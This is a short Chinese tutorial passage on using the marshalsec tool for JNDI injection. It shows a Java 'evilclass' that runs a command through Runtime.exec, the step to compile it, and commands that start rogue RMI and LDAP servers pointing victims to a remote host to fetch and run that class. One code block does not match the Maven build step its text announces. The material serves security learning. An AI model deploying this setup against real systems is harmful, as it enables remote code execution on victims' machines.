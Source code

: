 工具下载地址：GitHub - mbechler/marshalsec

工具 JDK 版本：JDK8

下载好后需要 maven 编译成 jar 包才可使用，在文件目录下执行命令

```
public class evilclass {
public evilclass (){
try{
Runtime.getRuntime().exec("calc");
}catch (Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
evilclass e = new evilclass();
}
}
```

工具使用方法如下

**1）创建恶意类文件**

```
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"calc"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

**2）javac 编译成 class 文件**

```
javac evilclass.java
```

**3）搭建伪造 RMI/LDAP 服务**

前往`marshalsec/target`目录，命令开启服务，端口设置为 9999

```
# RMI服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.112.146/#evilclass" 9999

# LDAP服务
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.112.146/#evilclass" 9999
```
